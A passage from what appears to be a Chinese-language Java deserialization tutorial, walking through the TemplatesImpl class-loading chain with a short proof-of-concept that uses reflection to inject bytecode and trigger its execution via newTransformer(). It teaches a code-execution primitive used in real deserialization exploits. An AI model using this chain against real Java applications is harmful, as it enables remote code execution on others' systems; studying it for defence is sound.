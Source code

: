 字节码这里的编写比较容易，我就一笔带过了，接下来我们重点关注 POC 是如何编写出来的。

因为是一整条链子，参考最开始我们讲的 URLDNS 链，我们需要设置其一些属性值，从而让我们的链子传递下去。我这里先把 POC 挂出来，结合着讲。

JAVA

```
package src.DynamicClassLoader.TemplatesImplClassLoader;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
// 主程序  
public class TemplatesRce {  
    public static void main(String[] args) throws Exception{  
        byte[] code = Files.readAllBytes(Paths.get("E:\\JavaClass\\TemplatesBytes.class"));  
 TemplatesImpl templates = new TemplatesImpl();  
 setFieldValue(templates, "_name", "Calc");  
 setFieldValue(templates, "_bytecodes", new byte[][] {code});  
 setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());  
 templates.newTransformer();  
 }  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{  
        Field field = obj.getClass().getDeclaredField(fieldName);  
 field.setAccessible(true);  
 field.set(obj, value);  
 }  
}
```

我们定义了一个设置私有属性的方法，命名为 `setFieldValue`，根据我们的链子，一个个看。

> TemplatesImpl#getOutputProperties() ->
> TemplatesImpl#newTransformer() ->
> TemplatesImpl#getTransletInstance() ->
> TemplatesImpl#defineTransletClasses() ->
> TransletClassLoader#defineClass()

- 主要是三个私有类的属性

  JAVA

  ```
  setFieldValue(templates, "_name", "Calc"); 
  ```

  

显然，`_name` 不能为 null，我们才能进入链子的下一部分。
链子的下一部分为 `defineTransletClasses`，我们跟进去。

![img](https://drun1baby.top/2022/06/03/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-05-%E7%B1%BB%E7%9A%84%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD/defineTransletClasses.png)
